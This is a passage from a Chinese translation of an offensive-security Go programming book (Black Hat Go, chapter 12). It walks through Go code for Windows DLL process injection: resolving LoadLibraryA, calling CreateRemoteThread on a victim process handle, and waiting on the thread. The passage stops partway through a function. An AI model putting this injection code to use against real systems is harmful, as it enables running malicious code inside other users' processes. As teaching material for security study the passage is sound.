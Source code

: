 *示例 12-10：通过使用* GetProcessAddress() *Windows 函数获取* LoadLibraryA() *内存地址*（*[/ch-12/procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*）

我们使用 `GetProcessAddress()` Windows 函数来识别调用 `CreateRemoteThread()` 函数所需的 `LoadLibraryA()` 基本内存地址。`ProcGetProcAddress.Call()` ❷ 函数接受两个参数：第一个是包含我们感兴趣的导出函数（`LoadLibraryA()`）的 `Kernel32.dll` ❸ 的句柄，第二个是从字面字符串 `"LoadLibraryA"` ❶ 返回的 `byte` 切片的基地址指针位置 ❹。

#### 使用 CreateRemoteThread Windows API 执行恶意 DLL

我们将使用 `CreateRemoteThread()` Windows 函数，在远程进程的虚拟内存区域中创建一个线程。如果该区域恰好是 `LoadLibraryA()`，我们现在就有办法加载并执行包含我们恶意 DLL 文件路径的内存区域。让我们回顾一下清单 12-11 中的代码。

```
func CreateRemoteThread(i *Inject) error {
    var threadId uint32 = 0
    var dwCreationFlags uint32 = 0
    remoteThread, _, lastErr := ProcCreateRemoteThread.Call❶(
        i.RemoteProcHandle, // HANDLE hProcess ❷
        uintptr(nullRef), // LPSECURITY_ATTRIBUTES lpThreadAttributes
        uintptr(nullRef), // SIZE_T dwStackSize
        i.LoadLibAddr, // LPTHREAD_START_ROUTINE lpStartAddress ❸
        i.Lpaddr, // LPVOID lpParameter ❹
        uintptr(dwCreationFlags), // DWORD dwCreationFlags
        uintptr(unsafe.Pointer(&threadId)), // LPDWORD lpThreadId
    )
    if remoteThread == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Can't Create Remote Thread.")
    }
    i.RThread = remoteThread
    fmt.Printf("[+] Thread identifier created: %v\n", unsafe.Pointer(&threadId))
    fmt.Printf("[+] Thread handle created: %v\n", unsafe.Pointer(i.RThread))
    return nil
}
```

*清单 12-11：使用* CreateRemoteThread() *Windows 函数执行进程注入 (*[/ch-12 /procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*)*

`ProcCreateRemoteThread.Call()` ❶ 函数总共有七个参数，尽管我们在这个示例中只使用了其中的三个。相关的参数是包含受害者进程句柄的 `RemoteProcHandle` ❷，包含线程要调用的启动例程（在本例中是 `LoadLibraryA()`）的 `LoadLibAddr` ❸，以及最后，指向包含有效负载位置的虚拟分配内存的指针 ❹。

#### 使用 WaitforSingleObject Windows API 验证注入

我们将使用 `WaitforSingleObject()` Windows 函数来识别何时某个特定对象处于已信号状态。这与进程注入相关，因为我们希望等待线程执行完成，以避免过早退出。让我们简要讨论一下在清单 12-12 中的函数定义。

```
func WaitForSingleObject(i *Inject) error {
    var dwMilliseconds uint32 = INFINITE
    var dwExitCode uint32
    rWaitValue, _, lastErr := ProcWaitForSingleObject.Call( ❶
        i.RThread, // HANDLE hHandle
        uintptr(dwMilliseconds)) // DWORD  dwMilliseconds
    if rWaitValue != 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error returning thread wait state.")
    }
    success, _, lastErr := ProcGetExitCodeThread.Call( ❷
 i.RThread, // HANDLE  hThread
        uintptr(unsafe.Pointer(&dwExitCode))) // LPDWORD lpExitCode
    if success == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error returning thread exit code.")
    }
    closed, _, lastErr := ProcCloseHandle.Call(i.RThread) // HANDLE hObject ❸
    if closed == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Error closing thread handle.")
    }
    return nil
```